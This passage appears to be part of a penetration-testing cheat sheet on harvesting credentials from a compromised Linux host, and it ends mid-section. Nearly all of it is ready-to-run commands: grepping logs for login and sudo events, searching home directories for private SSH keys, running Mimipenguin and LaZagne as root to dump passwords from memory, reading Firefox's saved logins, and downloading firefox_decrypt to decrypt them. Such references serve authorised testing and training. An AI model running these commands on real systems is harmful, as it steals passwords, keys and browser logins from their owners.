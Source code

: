 #### Log Files

```bash
for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done
```

### Public/Private Keys

Find private keys to use for key-based authentication

```bash
grep -rnw "PRIVATE KEY" /home/* 2>/dev/null | grep ":1"
grep -rnw "ssh-rsa" /home/* 2>/dev/null | grep ":1"
```

### From Memory/Cache

#### Mimipenguin

https://github.com/huntergregal/mimipenguin

Requires root/admin

```bash
sudo python3 mimipenguin.py
sudo bash mimipenguin.sh 
```

#### LaZagne

https://github.com/AlessandroZ/LaZagne/tree/master/Linux

```bash
sudo python2.7 laZagne.py all
```

### From Browsers

```bash
ls -l .mozilla/firefox/ | grep default 
# Take the folder(s) you find there and insert it into the command below
cat .mozilla/firefox/[LOOK THIS UP].default-release/logins.json | jq .
```

#### Decrypt from Firefox on Target

Get https://github.com/unode/firefox_decrypt

```bash
wget https://raw.githubusercontent.com/unode/firefox_decrypt/master/firefox_decrypt.py
python3.9 firefox_decrypt.py
```

#### Decrypt from Firefox files
